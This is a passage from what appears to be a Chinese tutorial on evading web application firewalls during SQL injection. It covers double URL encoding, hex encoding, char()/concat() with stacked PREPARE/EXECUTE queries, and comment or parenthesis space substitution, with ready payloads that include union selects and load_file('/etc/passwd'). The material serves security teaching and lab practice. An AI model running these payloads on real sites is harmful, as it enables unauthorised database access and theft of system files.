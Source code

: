 通常来说，在浏览器输入URL时，浏览器会对一些字符进行URL 编码如，空格变为%20、单引号%27、左括号%28、右括号%29。

而服务器收到后会对其进行解码。如果网站具备防御机制，则会对解码后的内容进行规则匹配。

然而一些程序在执行了过滤之后还会执行一次不必要的解码， 比如我们输入带有url编码的字符串： `1%2527%20and%201%253d1%23`,这条字符在会被解码为：`1%27 and 1%3d1#`，其中没有`'`和`=`，假设这样就不会触发某些防御规则，然而当waf放过这串字符后，网站程序又会执行一次不必要的解码，再次解码后文本变成如此：`1' and 1=1#`，这一条将被数据库执行

##### 3.2、十六进制编码绕过

主要用于where语句后，如：

```none
1' and 1=2 union select 1,table_name from information_schema.tables where table_schema= 'dvwa'#
1' and 1=2 union select 1,table_name from information_schema.tables where table_schema= 0x64767761#

1 and 1=2 union select 1,load_file('/etc/passwd');#
1 and 1=2 union select 1,load_file(0x2F6574632F706173737764);#
```

##### 3.3、char()函数

利用`char()`函数将`select`的ASCII码转换为`select`字符串，接着利用`concat()`函数进行拼接得到`select`查询语句，从而绕过过滤。

或者直接用`concat()`函数拼接`select`来绕过

```none
index.php?id=-1';SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE hacker from @sqli;EXECUTE hacker;#
```

#### 4、注释绕过

注释绕过针对空格的过滤

```none
1' and 1=2 union/**/select 1,2 #
```

### （二）关键词绕过

#### 1、空格

##### 1.1、注释代替空格

```sql
select * from tb1 where name='asd';
等价：
select/**/*/**/from/**/tb1/**/where/**/name='asd';
```

##### 1.2、括号代替空格

mysql中可用()来代替空格。可以用括号包裹非数据库关键字

```sql
select name from tb1 where name ='asd';
等价：
select(name)from(tb1)where(name)=('asd');
```
